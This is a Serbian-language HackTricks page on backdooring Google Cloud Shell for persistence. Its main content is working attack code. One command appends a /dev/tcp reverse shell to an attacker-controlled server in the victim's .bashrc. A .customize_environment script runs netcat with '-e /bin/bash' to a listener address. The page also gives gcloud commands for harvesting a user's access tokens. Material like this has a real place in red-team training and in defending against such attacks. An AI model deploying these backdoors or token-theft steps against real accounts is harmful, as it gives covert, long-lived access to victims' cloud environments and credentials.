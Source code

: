 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Za više informacija proverite:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) vam pruža pristup komandnoj liniji vašim cloud resursima direktno iz vašeg pregledača bez ikakvih povezanih troškova.

Možete pristupiti Google-ovom Cloud Shell-u iz **web konzole** ili pokretanjem **`gcloud cloud-shell ssh`**.

Ova konzola ima neke zanimljive mogućnosti za napadače:

1. **Svaki Google korisnik sa pristupom Google Cloud-u** ima pristup potpuno autentifikovanoj Cloud Shell instanci (Servisni nalozi mogu, čak i kao vlasnici organizacije).
2. Ta instanca će **održavati svoj home direktorijum najmanje 120 dana** ako ne dođe do aktivnosti.
3. **Nema mogućnosti za organizaciju da prati** aktivnost te instance.

To u suštini znači da napadač može staviti backdoor u home direktorijum korisnika i sve dok se korisnik povezuje na GC Shell svake 120 dana, backdoor će preživeti i napadač će dobiti shell svaki put kada se pokrene samo tako što će uraditi:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Postoji još jedna datoteka u domaćem folderu pod nazivom **`.customize_environment`** koja, ako postoji, će biti **izvršena svaki put** kada korisnik pristupi **cloud shell-u** (kao u prethodnoj tehnici). Samo umetnite prethodni backdoor ili jedan poput sledećeg da biste održali postojanost sve dok korisnik "često" koristi cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Važno je napomenuti da se **prvi put kada se izvrši akcija koja zahteva autentifikaciju**, u pretraživaču korisnika pojavljuje prozor za autorizaciju. Ovaj prozor mora biti prihvaćen pre nego što se komanda može izvršiti. Ako se pojavi neočekivani prozor, to može izazvati sumnju i potencijalno kompromitovati metodu postojanosti koja se koristi.
{% endhint %}

Ovo je prozor koji se pojavljuje prilikom izvršavanja `gcloud projects list` iz cloud shell-a (kao napadač) u korisničkoj sesiji pretraživača:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Međutim, ako je korisnik aktivno koristio cloudshell, prozor se neće pojaviti i možete **prikupiti tokene korisnika sa**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Kako se uspostavlja SSH veza

U osnovi, koriste se ova 3 API poziva:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (omogućava vam da dodate svoj javni ključ koji ste kreirali lokalno)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (omogućava vam da pokrenete instancu)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (prikazuje vam IP adresu google cloud shell-a)

Ali možete pronaći dodatne informacije na [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Reference

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

